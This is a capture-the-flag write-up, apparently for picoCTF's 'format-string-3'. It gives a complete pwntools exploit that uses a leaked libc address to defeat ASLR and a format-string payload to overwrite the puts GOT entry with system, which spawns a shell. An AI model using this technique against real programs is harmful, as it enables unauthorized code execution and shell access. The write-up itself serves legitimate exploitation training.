

From the source code 
```c
char *normal_string = "/bin/sh";
```

So it is clear we have to execute this command and get the root shell access and then find the file that contains the flag.

`system()` method is used to execute builtin from within `c`

This method is present in `libc` binary file

```c
puts(normal_string);
```

We can use format string to execute system() instead of puts() with the above argument

```python
from pwn import *

context(arch="amd64", os="linux")
elf = ELF("./format-string-3") 
libc = ELF("./libc.so.6")

r = remote("pico instance here")

r.recvuntil(b": 0x") 
```

```
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x7f91ff65e3f0
```

```python
aslred_setvbuf = r.recv(12) #The address of setvbuf in the process
static_setvbuf = libc.sym.setvbuf #The address of setvbuf in the libc binary which is constant
```
```python
aslred_setvbuf = int(aslred_setvbuf, 16) 
libc.address = aslred_setvbuf - static_setvbuf 
#If setvbuf is at 0x7ffff7e02a00 and its offset in libc is 0x02a00, then the
#base address of libc is 0x7ffff7e02a00 - 0x02a00 = 0x7ffff7e00000
#This sets the offset of libc in the above libc variable

#38 is the offset at which the format string is stored in the stack. I used gdb to find that (We can also your pwntools to find offset by using the offset function)
r.sendline(fmtstr_payload(38, {elf.got['puts']: libc.sym['system']}))
# constructs a format string payload which replaces the address of puts to system in the got table
r.interactive()
```

The got table is the Global offset table. It is a data structure used in dynamically linked programs to facilitate the resolution of offsets. It stores the address of external functions linked via a linker script

In this problem we are simply changing the address of puts in the GOT table to system

By calling the system function with arguments `/bin/sh`. It starts a shell with root shell. 
After we get the root shell we can just navigate to where the flag file is and then just read it


